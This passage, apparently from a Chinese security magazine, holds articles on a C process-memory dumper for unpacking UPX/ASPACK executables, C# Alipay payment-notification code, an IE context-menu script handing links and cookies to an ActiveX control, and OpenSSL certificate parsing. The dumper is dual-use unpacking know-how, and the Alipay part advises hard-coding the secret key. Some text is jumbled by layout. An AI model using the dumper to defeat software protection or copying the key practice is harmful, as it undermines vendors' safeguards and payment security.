    return -1;
}

// 获取内存中的数据
bRet = ReadProcessMemory(hProcess, me32.modBaseAddr, pBase, me32.modBaseSize, NULL);
if (FALSE == bRet)
{
    VirtualFree(pBase, me32.modBaseSize, MEM_RELEASE);
    CloseHandle(hProcess);
    CloseHandle(hSnap);
    return -1;
}
```

```c
PIMAGE_DOS_HEADER pDos = (PIMAGE_DOS_HEADER)pBase;
// PE 有效性的验证
if (pDos->e_magic != IMAGE_DOS_SIGNATURE)
{
    VirtualFree(pBase, me32.modBaseSize, MEM_RELEASE);
    CloseHandle(hProcess);
    CloseHandle(hSnap);
    return -1;
}

PIMAGE_NT_HEADERS pNt = (PIMAGE_NT_HEADERS)(pDos->e_lfanew + (PBYTE)pBase);
if (pNt->Signature != IMAGE_NT_SIGNATURE)
{
    VirtualFree(pBase, me32.modBaseSize, MEM_RELEASE);
    CloseHandle(hProcess);
    CloseHandle(hSnap);
    return -1;
}

pNt->OptionalHeader.AddressOfEntryPoint = atoi(argv[2]) - pNt->OptionalHeader.ImageBase;
pNt->OptionalHeader.FileAlignment = 0x1000;

PIMAGE_SECTION_HEADER pSec = (PIMAGE_SECTION_HEADER)
    ((PBYTE)&pNt->OptionalHeader + pNt->FileHeader.SizeOfOptionalHeader);
for (int i = 0; i < pNt->FileHeader.NumberOfSections; i++)
{
    pSec->PointerToRawData = pSec->VirtualAddress;
    pSec->SizeOfRawData = pSec->Misc.VirtualSize;
    pSec++;
}

CloseHandle(hFile);
hFile = CreateFile("d:\\dump.exe", GENERIC_WRITE,
    FILE_SHARE_READ, NULL, CREATE_ALWAYS,
    FILE_ATTRIBUTE_NORMAL, NULL);
if (INVALID_HANDLE_VALUE == hFile)
{
    VirtualFree(pBase, me32.modBaseSize, MEM_RELEASE);
    CloseHandle(hProcess);
    CloseHandle(hSnap);
    return -1;
}

DWORD dwWriteNum = 0;
// 写入磁盘文件
bRet = WriteFile(hFile, pBase, me32.modBaseSize, &dwWriteNum, NULL);
if (dwWriteNum != me32.modBaseSize || FALSE == bRet)
{
    printf("Error!\r\n");
}

CloseHandle(hFile);
VirtualFree(pBase, me32.modBaseSize, MEM_RELEASE);
CloseHandle(hProcess);
CloseHandle(hSnap);
return 0;
```

整个程序实现就是这样的。代码中的以下代码主要用于读取磁盘文件，获取模块映像大小，来修正模块映像大小。

```c
HANDLE hFile = CreateFile(me32.szExePath,
    GENERIC_READ, FILE_SHARE_READ, NULL,
    OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
IMAGE_DOS_HEADER imgDos = {0};
DWORD dwReadNum = 0;
ReadFile(hFile, &imgDos, sizeof(IMAGE_DOS_HEADER), &dwReadNum, NULL);
SetFilePointer(hFile, imgDos.e_lfanew, 0, FILE_BEGIN);
IMAGE_NT_HEADERS imgNt = {0};
ReadFile(hFile, &imgNt, sizeof(IMAGE_NT_HEADERS), &dwReadNum, NULL);
// 在磁盘文件上的 PE 头中获取文件的映像大小
DWORD BaseSize = me32.modBaseSize;
printf("BaseSize = %x\r\n", BaseSize);
```

```c
printf("me32.modBaseSize = %x\r\n", me32.modBaseSize);
if (imgNt.OptionalHeader.SizeOfImage > BaseSize)
{
    BaseSize = imgNt.OptionalHeader.SizeOfImage;
}
```

有的软件会通过修改模块大小，导致 dump 后的映像大小有问题而无法使用。当然，除了这些以外，其实在 dump 中还有很多地方要考虑，比如 dump 的某段内存不能读之类的，当然具体问题要具体对待了。

最后测试一下，用 OD 调试一个加了 UPX 或 ASPACK 壳的文件，到达 OEP 处，使用我们的工具进行 dump，再用 ImportREC 修复 dump 文件，运行修复后的文件，没有任何问题。

前置知识：C#

关键词：编程、支付宝

## 支付宝转接安全应用主题

文/图 Winbo

随着电子商务的日益成熟，网络转账的安全要求越来越高。支付宝就是在这种背景下发展起来的。对于大型网上购物系统而言，除了能够让会员选择货到付款结账方式外，还应该提供一些更方便快捷的网上支付方式；对于中小型网络商店而言，如果没有足够的实力提供会员直接在网站中建立现金账户的功能，就可以将订单信息转接到支付宝，让会员从支付宝付款。当然，用户也可以将支付宝作为一种方便快捷的支付方式，从而给客户提供更多可选的支付方式。不过，谈到“钱”和“网络”，自然就会联想到“安全”的问题。如何在网络开发中合理利用支付宝，就成为了当前的一个重要话题。

##### 支付宝安全操作基础知识

支付宝转接的原理很简单，实际上就是通过浏览器传参数到支付网关，支付网关获得浏览器参数并进行内部解析，浏览器传的参数都经过了加密处理。商户系统与支付宝之间有两种交互模式，分别是请求/响应交互模式和主动通知交互模式。

###### 交互模式

- 1）请求/响应交互模式。这是最常用的一种交互模式。在这种模式下，商户系统向支付宝系统发送请求数据，并“同步”等待支付宝系统处理完毕之后返回的响应数据。请求/响应模式根据页面流程，可分为系统调用和页面跳转。而同步就是指商户系统在等待：支付宝自身的处理结束，并调用商户系统的接口文件，或买家需要再回到商户网站进行操作，如图 1 所示。  
  - 1. 构造请求数据
  - 2. 发送请求数据
  - 3. 请求的交易
  - 4. 返回响应数据
  - 5. 对响应的数据进行处理

- 2）主动通知交互模式。买家从商户网站转跳到支付宝网站，在支付宝网站完成最后操作，不需要再回到商户网站。支付宝系统会将支付完成信息采用主动通知的方式提交给商户系统。这种交互模式如果需要异步返回结果，商户网站必须传递参数给支付宝网站，支付宝会将相关的消息传递到指定的消息处理程序。

目前，申请支付宝接口主要有两种方式。第一种为免费接口，淘宝抽取 2% 的手续费；第二种为付费接口，例如 600 元允许 48000 元交易金额的配额等。在免费接口中，又分为标准双接口交易类型和纯即时到账交易。这两种支付方式中，前者为淘宝担保交易+即时到账交易，而后者仅仅为即时到账交易。

> 支付宝接口的区别：  
> 支付宝接口包括标准双接口和纯即时到账接口。标准双接口又称为中介担保接口，包括担保交易和即时到账方式。对于担保交易，客户支付的货款都会到支付宝，然后由客户点击“收货”确认，货款才能真正到指定的支付宝账号。标准双接口里面的即时到账无须买家确认，货款直接到卖家的支付宝账号。这里的即时到账方式跟纯即时到账接口是一样的。标准双接口主要用于实物销售，一些批发行业或者客户二次购买的时候可以使用其中的即时到账方式。纯即时到账无须买家确认，客户支付的货款直接到达卖家的支付宝账户。纯即时到账主要是开发给虚拟行业，如广告、点卡、彩票、VOD 等。

支付接口申请成功后，会得到两个重要的参数：支付宝安全校验码和合作伙伴 ID，这两个参数起到了支付是否成功的重要作用。图 2 是一个具体的步骤演示。

- 第 1 步：网上购物系统与支付宝公司签订合作协议，以确保从本购物网站上传到支付宝网站上的订单信息能被正确接收。
- 第 2 步：当会员于购物网站买下一系列商品并选择支付宝付款方式后，购物系统即将会员购物的订单信息转发到支付宝，网站页面也会转到支付宝的付款页面。此时，支付宝页面会发送一个验证信息到本网站，以确认支付宝正确收到订单信息。  
  > 提示：通知页面是传递给支付宝时的 notify_url 参数所对应的页面文件。返回页面是传递给支付宝时的 return_url 参数所对应的页面文件。
- 第 3 步：会员在支付宝网站完成付款后，网站页面会重新跳回购物网站，同时支付宝会将已付款的订单信息发回本网站，以对本购物网站的数据库进行必要的修改操作。另外，还需要向支付宝网站发送一个返回信息，告知支付宝本系统已正确收到付款完毕的订单信息，并且已经完成对数据的处理操作。

##### 支付宝源码实现过程分析

在与支付宝签订完合同后，就可以使用合同中的商家 ID、商家支付宝账号和安全校验码，整合支付宝到自己的电子商务系统中了。下面以一个典型的电子商务网站开发为例，对支付宝操作的一些关键代码进行分析。首先，需要建立一个通知页面（CvicseAlipayNotify.aspx）和一个返回页面（CvicseAlipayReturn.aspx），用于接收并验证从支付宝返回的信息，并对数据库中相应的订单信息做修改处理操作。下面分析通知页面 CvicseAlipayNotify.aspx 的后台代码。通知页面是传递给支付宝时的 notify_url 参数所对应的页面文件。通知页面就是被支付宝调用才能启动的，它获得参数的方法是用 Post 方式获取，该页面的 HTML 页面必须是空白的无任何 HTML 标签、无任何空格，不允许做页面跳转。

###### 第 1 步：从配置文件中取出商家 ID、商家支付宝账号和安全校验码

这里有一些已经定义的变量：

```csharp
string alipayNotifyURL = "https://www.alipay.com/cooperate/gateway.do?";
string partner = ConfigurationManager.AppSettings["partnerAlipay"].ToString();
string key = ConfigurationManager.AppSettings["keyAlipay"].ToString();
string _input_charset = ConfigurationManager.AppSettings["input_charsetAlipay"].ToString();
alipayNotifyURL = alipayNotifyURL + "service=notify_verify" + "&partner=" + partner + "&notify_id=" + Request.Form["notify_id"];
string responseTxt = Alipay.Get_Http(alipayNotifyURL, 120000);
int i;
NameValueCollection coll;
coll = Request.Form;
String[] requestarr = coll.AllKeys;
string[] Sortedstr = Alipay.BubbleSort(requestarr);
```

下面对其中的一些典型代码进行详细分析：

- 第 1 行：定义支付网关，支付网关把组装好的订单信息传送给支付宝服务器，服务器做一些付款处理。支付宝、财付通、快钱等第三方在线平台的支付网关，各大银行都会支持。
- 第 2 行：从配置文件读取合作伙伴 ID，商户与支付宝签订合同时会获得此值，在支付宝系统中用来唯一标识商户。
- 第 3 行：从配置文件中读取商户的交易安全校验码 Key，商户与支付宝签订合同时也会获得此值。安全校验码主要用来对数据加密，防止别人伪造交易数据，这个 Key 就像钥匙一样，相当重要。
- 第 4 行：从配置文件中读取编码格式，在通过支付接口传递参数信息到支付宝服务器时使用此编码格式。当为 UTF-8 的编码格式时，必须用到且不允许为空。
- 第 5 行：组装通知 URL，用于确认支付宝服务器已经接收到正确的订单信息。
- 第 6 行：获取支付宝 ATN 返回结果，true 表示正确的订单信息，false 表示无效。
- 第 8 行：定义键值变量，用来存放表单中所有变量值。NameValueCollection 类表示可通过键或索引访问的关联 String 键和 String 值的集合。
- 第 9 行：加载表单所有变量并赋值于变量 coll。
- 第 10 行：获取表单所有变量，并将其放入数组中。
- 第 11 行：把参数的变量名集合 requestarr（以这种方式组合：service="trade_create_by_buyer" 作为一个字符串）按从 a 到 z 的顺序依次排序。

###### 第 2 步：构造待 MD5 加密的字符串并对其加密

为了保证数据传输过程中的数据真实性和完整性，我们需要对数据进行数字签名，在接收到签名数据之后进行签名校验。MD5 签名算法是众多签名算法中比较简单的了。下面是其中的典型代码，其中 GetMD5() 函数可参考后面的公用方法。

```csharp
string mysign = Alipay.GetMD5(prestr.ToString(), _input_charset);
```

###### 第 3 步：验证支付宝发过来的消息、签名是否正确

如果正确，则表示该页面已被支付宝服务器成功调用。

```csharp
string sign = Request.Form["sign"];
string strOrderNO = Request.Form["out_trade_no"];
if (mysign == sign && responseTxt == "true")
{
    // 验证支付宝发过来的消息、签名是否正确
    string strPrice = Request.Form["total_fee"];
    decimal total_fee = 0M;
    if (!string.IsNullOrEmpty(strPrice))
    {
        total_fee = decimal.Parse(strPrice);
    }
    if (Request.Form["trade_status"] == "TRADE_FINISHED"
        || Request.Form["trade_status"] == "TRADE_SUCCESS"
        || Request.Form["trade_status"] == "WAIT_SELLER_SEND_GOODS"
        || Request.Form["trade_status"] == "WAIT_BUYER_CONFIRM_GOODS")
    {
        // 判断支付状态：交易成功结束
    }
}
```

```csharp
int m = 0;
int n = 0;
int k = 0;
int runTime = 10; // 定义循环执行最多次数
List<VendorOrder> vendorOrderList = new List<VendorOrder>();
vendorOrderList = alipayservice.GetVendorOrders(strOrderNO);

// 准备给会员订单下用支付宝支付后的供货商订单
// 修改会员订单中的是否支付宝支付成功 flag 为 false
bool successpay = false;
successpay = alipayservice.UpdateMemberOrderAlipayFlag(strOrderNO);
while (successpay != true && k < runTime)
{
    k++;
    successpay = alipayservice.UpdateMemberOrderAlipayFlag(strOrderNO);
}

// 修改会员订单和供货商订单中的付款状态
bool paysuccess = false, addsuccess = false;
paysuccess = alipayservice.UpdateMemberOrderAndVendorOrderPaymentStatus(strOrderNO, 2, vendorOrderList);
// 状态 2 为“已付款”
while ((!paysuccess) && (m < runTime))
{
    m++;
    paysuccess = alipayservice.UpdateMemberOrderAndVendorOrderPaymentStatus(strOrderNO, 2, vendorOrderList);
}

// 添加相应的订单参数
addsuccess = alipayservice.AddOrderStatusLog(strOrderNO, 2);
while ((!addsuccess) && (n < runTime))
{
    n++;
    addsuccess = alipayservice.AddOrderStatusLog(strOrderNO, 2);
}

Response.Write("success");
// 返回给支付宝消息，成功
}
else
{
    // 给系统管理员发邮件
    List<FRMYLEC.Library.Model.Entity.User.User> userList = new List<FRMYLEC.Library.Model.Entity.User.User>();
    userList = alipayservice.GetSystemManager();
    string subject, body;
    // 邮件的主题和内容
    subject = "支付宝传送异常" + strOrderNO;
    body = "失败时间:" + DateTime.Now.ToString("yyyy年MM月dd日hh时mm分ss秒") + " 失败原因:" + Alipay.GetReturnError(sign);
    foreach (FRMYLEC.Library.Model.Entity.User.User user in userList)
    {
        Email email = new Email(user.AccountName, subject, body);
        email.SendAsync();
    }
    Response.Write("fail");
}
```

返回页面是传递给支付宝的 return_url 参数所对应的页面文件，返回页面的后台代码与通知页面类似。在该页面中，首先从配置文件中取出商家 ID、商家支付宝账号和安全校验码，并进行排序。然后，构造待 MD5 加密的字符串并对其加密。最后，验证支付宝发过来的消息，签名是否正确。对于返回页面而言，当买家的购买流程已经走到支付宝中且支付宝提示支付成功时，页面会自动跳转回自身网站的这个页面里来；返回页面是同步的，获得参数的方法是用 Get 方式获取；不论跳转回来程序判断是真是假，只跳转一次。

##### 页面公用方法分析

对于通知页面和返回页面公用的方法，可以抽取出来存放于 Alipay.cs，如图 3 所示。

- 1）定义支付宝返回错误常量。例如以下代码格式：

```csharp
public const string ILLEGAL_ARGUMENT_Value = "属于参数格式有问题，查看接口发送页的参数是否符合要求";
public const string DIRECT_PAY_AMOUNT_OUT_OF_RANGE_Value = "...";
......
```

- 2）根据支付宝返回的错误类型得出错误描述。这里主要使用了 `switch...case` 语句。

```csharp
public static string GetReturnError(string sign)
{
    string result = "";
    switch (sign)
    {
        case "ILLEGAL_ARGUMENT":
            result = ILLEGAL_ARGUMENT_Value;
            break;
        case "DIRECT_PAY_AMOUNT_OUT_OF_RANGE":
            result = DIRECT_PAY_AMOUNT_OUT_OF_RANGE_Value;
            break;
        default:
            result = DEFAULT_Value;
            break;
    }
    return result;
}
```

- 3）MD5 加密算法。即上文所说的 GetMD5() 函数。

```csharp
public static string GetMD5(string s, string _input_charset)
{
    MD5 md5 = new MD5CryptoServiceProvider();
    ...
}
```

```csharp
byte[] t = md5.ComputeHash(Encoding.GetEncoding(_input_charset).GetBytes(s));
StringBuilder sb = new StringBuilder(32);
for (int i = 0; i < t.Length; i++)
{
    sb.Append(t[i].ToString("x").PadLeft(2, '0'));
}
return sb.ToString();
```

- 4）冒泡排序。以下为排序的具体方法。

```csharp
public static string[] BubbleSort(string[] r)
{
    int i, j;
    string temp;
    bool exchange;
    for (i = 0; i < r.Length; i++)
    {
        exchange = false;
        for (j = r.Length - 2; j >= i; j--)
        {
            if (System.String.CompareOrdinal(r[j + 1], r[j]) < 0)
            {
                temp = r[j + 1];
                r[j + 1] = r[j];
                r[j] = temp;
                exchange = true;
            }
        }
        if (!exchange) break;
    }
    return r;
}
```

通过这些公用方法，可以大大提高代码编写效率。

##### 页面调用支付宝程序的关键代码

在调用支付宝程序的支付页面中，关键代码如下：

```csharp
protected void btnToAlipay_Click(object sender, EventArgs e)
{
    AlipayService alipayService = new AlipayService();
    string memberOrderID = Session["OrderShow_MemberOrderId"].ToString();
    string productNames = alipayService.GetProductNamesByMemberOrderID(memberOrderID);
    decimal totalFee = alipayService.GetAliPayment(memberOrderID);
    string url = Tool.GetRootURI();
    if (totalFee <= 0)
    {
        MessageBox.Show(this.Page, "您没有设定支付宝应付金额！");
    }
    else
    {
        string gateway = ConfigurationManager.AppSettings["gatewayAlipay"].ToString();
        string service = ConfigurationManager.AppSettings["serviceAlipay"].ToString();
        string seller_email = ConfigurationManager.AppSettings["seller_emailAlipay"].ToString();
        ...
    }
}
```

```csharp
// 商家签约时的支付宝账号，即收款时支付宝账号
......

// 服务器通知 URL（CviescAlipayNotify.aspx 文件所在路径），必须是完整的路径地址
string notify_url = url + "/Modules/Order/CviescAlipayNotify.aspx";
// 服务器返回 URL（CviescAlipayReturn.aspx 文件所在路径），必须是完整的路径地址
string return_url = url + "/Modules/Order/CviescAlipayReturn.aspx";

Alipay ap = new Alipay();
string alipay_url = ap.CreatUrl(gateway, service, partner,
sign_type, out_trade_no, subject, body, payment_type, price,
show_url, seller_email, key, return_url, _input_charset,
notify_url, quantity);
Response.Redirect(alipay_url);
}
}
```

其中，在省略部分中，可以使用类似的方法设置加密类型、安全校验码、商户 ID、编码类型、支付类型、购买数量等。

##### 常见问题分析

开发过程中难免会遇到一些疑难杂症。在调试过程中，用支付宝付款的功能必须进行实际的支付操作才能发现错误。下面，列举几个常见的问题。

- 1）出现 “HAS_NO_PRIVILEGE（没有权限）” 的提示。  
  在测试过程中，遇到的第一个问题是提示出现：HAS_NO_PRIVILEGE，在官方给出的 API 介绍中是这样解释的：“该错误提示的是，您没有使用该接口的权限，那么登录自己的支付宝账户，商家工具，查看实物交易服务或者虚拟物品交易服务，如果没有申请，请立刻申请并且即时开通。”可以很肯定的是，已经开通了服务，那么问题就不是出在这儿。通过仔细查阅 API 后发现，service 的参数设置错误。所以在开发中请注意，如果选择的是：

> 标准双接口交易 -> service=trade_create_by_buyer  
> 即时到帐交易 -> service=create_direct_pay_by_user

这里一定要填写正确，否则就会出现没有权限这样的问题。

- 2）支付成功后返回错误的页面。  
  支付成功了，但是总是返回错误的页面。首先看看以下的代码：

```csharp
// 生成 MD5 摘要
string mysign = GetMD5(prestr.ToString(), input_charset);
string sign = Request.QueryString["sign"];
if (mysign == sign && responseTxt == "true")
// 验证支付宝发过来的消息，签名是否正确
{
    Response.Write("success"); // 返回给支付宝消息，成功
}
else
{
    Response.Write("fail");
}
......
```

在这里，如果 mysign 和 responseTxt 为 false，则会显示错误信息。这是由于在 Return 页面中，没有设置支付宝安全校验码（key）和合作伙伴 id（partner），解决方法是在 Page_Load 中加入常量：

```csharp
String key = "xxxxxxxxxxxx";     // 你的安全校验码
String partner = "xxxxxxxxxx";   // 你的合作伙伴 id


```

这样加入后，当付款成功时，就会返回正确的页面了。在转接调试过程中，必须真实地从网站购买商品并跳转到支付宝网付款，可以将所卖商品的单价设为 0.01 元，从支付宝付款成功并重新跳回本网站后，检查订单信息是否正确，以及对返回的数据所做的处理操作是否正确。也就是说，在调试过程中，还必须尽量使用实际的支付操作功能，才能发现潜在的错误。这样，就能够在网络安全支付中知己知彼，尽可能地提高安全性。

前置知识：VC  
关键词：编程、BHO、注册表

##### 利用 BHO 获取当前光标信息
文/图 magic dog

关于 BHO，黑防以前已经有过详细的介绍，而最近我要做一个类似迅雷右键下载的功能，就正好是利用 BHO 来实现的。作为一个 BHO 实现的例子，本文就和大家分享一下过程。

##### 实现目标

当用户右击网页上任意超级链接时，弹出类似如图 1 所示的选项。用户单击该选项后，由相应程序（我们自己写的程序）获取该链接信息，然后再做需要的数据处理。所以本文讨论到能让我们自己的程序获取链接信息为止。
图 1

##### 制作思路

- 1）增加右键菜单：增加注册相关键值。
- 2）单击菜单选项后，浏览器自动打开在注册表中设置的指定 URL。
- 3）利用 htm（脚本）配合自己写好的 ActiveX 处理信息，并提交给相应程序。

##### 代码实现

首先是增加注册表键值，键值信息如图 2 所示。具体为“Registry path: HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\MenuExt\关注此帖子”。
图 2

URL 一般来说设置成本地的网页文件，结合脚本便能得到相关信息，此处代码大部分参考迅雷实现。

```javascript
<script language="javascript">
function AddLink(Url,Info,Location,strCID,strStatUrl,strCookie){
  // URL、链接标题
}
```

```javascript
{
  var wsh = new ActiveXObject("test.get");
  if (wsh) {
    wsh.GetUrlTxt(Url, Info);
  }
}

function OnContextMenu() {
  var srcEvent = external.menuArguments.event;
  var EventElement;
  if (typeof(srcEvent.clientX) == "undefined") {
    EventElement = external.menuArguments.document.elementFromPoint(srcEvent.pointerX, srcEvent.pointerY);
  } else {
    EventElement = external.menuArguments.document.elementFromPoint(srcEvent.clientX, srcEvent.clientY);
  }

  var strDownloadPage = external.menuArguments.location;
  var theDownloadPage = external.menuArguments.document.getElementById("thunder_down_pageurl");
  if (theDownloadPage != null) {
    strDownloadPage = theDownloadPage.value;
  }

  var strStatPage = "";
  var theStatPage = external.menuArguments.document.getElementById("thunder_stat_pageurl");
  if (theStatPage != null) {
    strStatPage = theStatPage.value;
  }

  var strCID = "";
  var theCID = external.menuArguments.document.getElementById("thunder_cid");
  if (theCID != null) {
    strCID = theCID.value;
  }

  var srcAnchor;
  if (srcEvent.type == "MenuExtAnchor") {
    srcAnchor = EventElement;
    do {
      srcAnchor = srcAnchor.parentElement;
    } while (typeof(srcAnchor) != "HTMLAnchorElement");
    AddLink(srcAnchor.href, srcAnchor.innerText, strDownloadPage, strCID, strStatPage, external.menuArguments.document.cookie);
  } else if (srcEvent.type == "MenuExtImage") {
    if (typeof(EventElement) == "HTMLAreaElement") {
      AddLink(EventElement.href, EventElement.Alt, strDownloadPage, strCID, strStatPage, external.menuArguments.document.cookie);
    } else {
      var srcImage = EventElement;
      var srcAnchor = srcImage.parentElement;
    }
  }
}
```

```javascript
do {
    srcAnchor = srcAnchor.parentElement;
    if (typeof(srcAnchor) == "undefined") {
        AddLink(srcImage.href, srcImage.Alt, strDownloadPage,
        strCID, strStatPage, external.menuArguments.document.cookie);
        return;
    }
} while (typeof(srcAnchor) == "HTMLAnchorElement");
AddLink(srcAnchor.href, srcImage.Alt, strDownloadPage,
strCID, strStatPage);
}
}
else if (srcEvent.type == "MenuExtUnknown")
{
    srcAnchor = EventElement;
    if (srcAnchor != null && srcAnchor.tagName != null &&
    srcAnchor.tagName.toLowerCase() == "a")
    {
        AddLink(srcAnchor.href, srcAnchor.innerText, strDownloadPage,
        strCID, strStatPage, external.menuArguments.document.cookie);
    }
    else
    {
        while (srcAnchor != null && srcAnchor.tagName != null &&
        srcAnchor.tagName.toLowerCase() != "a")
        {
            srcAnchor = srcAnchor.parentElement;
            if (srcAnchor != null && srcAnchor.tagName != null &&
            srcAnchor.tagName.toLowerCase() == "a")
            {
                AddLink(srcAnchor.href, srcAnchor.innerText, strDownloadPage,
                strCID, strStatPage, external.menuArguments.document.cookie);
                return;
            }
        }
        if (EventElement != null && EventElement.tagName != null)
        {
            AddLink(EventElement.href, EventElement.innerText,
            strDownloadPage, strCID, strStatPage, external.menuArguments.document.cookie);
        }
        else
        {
            alert("无法识别的超级链接信息");
        }
    }
}
else
{
}
OnContextMenu();
</script>


```

我们只需要修改 AddLink 函数即可，利用 `new ActiveXObject("test.get");` 建立 ActiveX 对象，test 是自己写的 ActiveX 程序名（建立项目时的名字），get 是类名，GetUrlTxt 则是接口名，接口 GetUrlTxt 实现了链接信息的处理和传递。图 3 即是程序接收到 ActiveX 程序传递过来的数据情况。
图 3

当然，实际上还有很多要判断处理，例如程序已经启动则不需要再启动了（互斥），否则先启动再传递数据等。最后，我们来看看 ActiveX 部分的编写。

本文采用 ATL 实现 ActiveX 的编写。建立好 ATL 项目后，新建一个简单对象，切记选择“双重接口”，否则不能被脚本所调用。之后是添加接口方法，例如 GetUrlTxt。实现代码部分如下：

```cpp
USES_CONVERSION;
if (*url == '\0')
// 传递过来的参数 URL 如果为空则不处理。注意传递过
// 来的 title 有时是无效的（指针），无法判断
return S_OK;

char *url_str = OLE2A(url);
char *title_str = OLE2A(title);

// 读取程序根目录，并建议“\\”结尾
char *path = getpath();

if (activeC()) // 判断主程序启动没有
{
    ...
    WinExec(main_path, SW_NORMAL);
    // 没有则启动
}

// 得到数据文件
char db_path[300];
strcpy(db_path, path);
strcat(db_path, "tz.dat");

char x[1000];
...
CloseHandle(tz_file);
return S_OK;


```

最后提醒一下，写好 ActiveX 后，还需要用 regsvr32 进行注册，否则将无法实现相应功能。

前置知识：VC、数字证书  
关键词：PKI、OPENSSL、数字证书
##### 编程解析数字证书

文/图 武大信安 余跃 孔亚楠

前几期的黑防中，我们已经向大家介绍过如何利用 OPENSSL 进行一些密码学方面的编程。本文将主要介绍 PKI 公钥体系中非常核心的元素——数字证书的编程解析。在使用 SSL/SET 等安全协议通信时，数字证书用于通信双方进行身份认证，依靠数字证书和非对称加密算法加密传输数据，或者根据数字证书协商通信双方的共享密钥。所以，用户想要开发自己的应用，实现身份认证，必须对数字证书进行解析。根据解析结果，符合一定条件的终端用户，才可以接入。

有操作，如获得证书的版本、公钥、拥有者信息、颁发者信息、有效期等，下面就向大家介绍如何通过编程，解析出我们需要的证书信息。

###### 证书格式介绍

现有的数字证书大都采用了 X.509 规范，主要由以下信息组成：版本号、证书序列号、有效期（证书生效时间和失效时间）、用户信息（姓名、单位、组织、城市、国家等）、颁发者信息、其他扩展信息、拥有者的公钥和 CA 对证书整体的签名，如图 1 所示。

###### 证书解析编程实现

1）数据结构介绍

X.509 证书在 OPENSSL 中定义了专门的数据结构，方便用户对其操作，其结构如下所示：

```c
struct x509_st
{
    X509_CINF *cert_info;
    X509_ALGOR *sig_alg;
    ASN1_BIT_STRING *signature;
    int valid;
    int references;
    char *name;
    CRYPTO_EX_DATA ex_data;
    long ex_pathlen;
    long ex_pcpathlen;
    unsigned long ex_flags;
    unsigned long ex_kusage;
    unsigned long ex_xkusage;
    unsigned long ex_nscert;
    ASN1_OCTET_STRING *skid;
    struct AUTHORITY_KEYID_st *akid;
    X509_POLICY_CACHE *policy_cache;
#ifndef OPENSSL_NO_SHA
    unsigned char sha1_hash[SHA_DIGEST_LENGTH];
#endif
    X509_CERT_AUX *aux;
};


```

该结构表示了一个完整的数字证书，各项意义分别如下：cert_info 为证书主体信息；sig_alg 为签名算法；signature 为签名值，存放 CA 对该证书签名的结果；valid 代表是否是合法证书，1 为合法，0 为未知；references 为引用次数，被引用一次则加 1；name 是证书持有者信息；ex_data 为扩展数据结构，用于存放用户自定义的信息；ex_pathlen 为证书路径长度；ex_kusage 是密钥……
图 1  X.509 V3 数字证书格式

OPENSSL 开发包中实现了对 X.509 证书解析的所用法：ex_kusage 是扩展密钥用法；ex_nscert 代表 Netscape 证书类型；skid 是主体密钥标识；akid 是颁发者密钥标识；policy_cache 为各种策略缓存；sha1_hash 用于存放证书的 sha1 摘要值；aux 代表辅助信息。其中，证书主体信息 X509_CINF 结构体定义如下：

```c
typedef struct x509_cinf_st {
    ASN1_INTEGER *version;      // 证书版本
    ASN1_INTEGER *serialNumber; // 序列号
    X509_ALGOR *signature;      // 签名算法
    X509_NAME *issuer;          // 颁发者
    X509_VAL *validity;         // 有效时间
    X509_NAME *subject;         // 持有者
    X509_PUBKEY *key;           // 公钥
    ASN1_BIT_STRING *issuerUID; // 颁发者唯一标识
    ASN1_BIT_STRING *subjectUID;// 持有者唯一标识
    STACK_OF(X509_EXTENSION) *extensions; // 扩展项
} X509_CINF;
```

###### 2）函数介绍

根据上述结构体可知，我们可以通过编程读取结构体中的证书信息。下面介绍几个常用的函数。

####### ① 编码转换函数

数字证书分为 DER 编码和 PEM 编码，所以对应的操作是不一样的。对于 DER 编码的证书，我们可以通过函数 `X509* d2i_X509(X509 **cert, unsigned char **d, int len)` 返回一个 X509 的结构体指针。而对于 PEM 编码的证书，可以通过 OpenSSL 提供的 BIO 函数实现转换：先调用 `BIO_new_file()` 返回一个 BIO 结构体，然后通过 `PEM_read_bio_X509()` 返回一个 X509 结构体。

####### ② 获得证书信息

获得证书信息的操作，仅仅是解析 X509 和 X509_CINF 结构体的操作，可以得到如证书版本、颁发者信息、证书拥有者信息、有效期、证书公钥等信息，主要函数如下：

```c
X509_get_version();      // 获取证书版本
X509_get_issuer_name();  // 获得证书颁发者信息
X509_get_subject_name(); // 获得证书拥有者信息
X509_get_notBefore();    // 获得证书起始日期
X509_get_notAfter();     // 获得证书终止日期
X509_get_pubkey();       // 获得证书公钥
```

其中，函数具体的参数和使用，将结合下面的代码向大家介绍。

###### 3）编程实现

通过上述函数和结构体的介绍，编程实现解析一个数字证书就非常简单了。在此，我编写了一个解析证书的软件，实现关键代码如下：

```c
fp = fopen(filename.GetBuffer(0), "rb");
if (fp == NULL) {
    MessageBox("读取证书错误");
    return;
}
Certlen = fread(Cert, 1, 4096, fp);
fclose(fp);

// 判断是否为 DER 编码的用户证书，并转化为 X509 结构体
pTmp = Cert;
usrCert = d2i_X509(NULL, (const unsigned char **)&pTmp, Certlen);
if (usrCert == NULL) {
    BIO *b;
    // 判断是否为 PEM 格式的数字证书
    b = BIO_new_file(filename.GetBuffer(0), "r");
    usrCert = PEM_read_bio_X509(b, NULL, NULL, NULL);
    BIO_free(b);
    if (usrCert == NULL) {
        MessageBox("转化格式错误！");
        return;
    }
}

// 解析证书
X509_NAME *issuer = NULL;   // 保存证书颁发者信息
X509_NAME *subject = NULL;  // 保存证书拥有者信息

// 获取证书版本
Version = X509_get_version(usrCert);

// 获取证书颁发者信息
issuer = X509_get_issuer_name(usrCert);

// 获取 X509_NAME 条目个数
entriesNum = sk_X509_NAME_ENTRY_num(issuer->entries);

// 循环读取各条目信息
for (i = 0; i < entriesNum; i++) {
    name_entry = sk_X509_NAME_ENTRY_value(issuer->entries, i);
    Nid = OBJ_obj2nid(name_entry->object);
    if (name_entry->value->type == V_ASN1_UTF8STRING) {
        nUtf8 = 2 * name_entry->value->length;
        pUtf8 = (unsigned short *)malloc(nUtf8);
        memset(pUtf8, 0, nUtf8);
        rv = MultiByteToWideChar(CP_UTF8, 0,
                                 (char*)name_entry->value->data,
                                 name_entry->value->length,
                                 pUtf8, nUtf8);
        rv = WideCharToMultiByte(CP_ACP, 0,
                                 pUtf8, ...);
    }
}
```

```cpp
(char*)msginfo,
nUtf8,
NULL,
NULL);
free(pUtf8);
pUtf8 = NULL;
msginfoLen = rv;
msginfo[msginfoLen] = '\0';
...
// 根据 NID 打印出信息
switch(Nid)
{
case NID_countryName: // 国家
    tmp.Format("issuer's countryName:%s\n", msginfo);
    m_list.InsertString(-1, tmp);
    ...
    break;
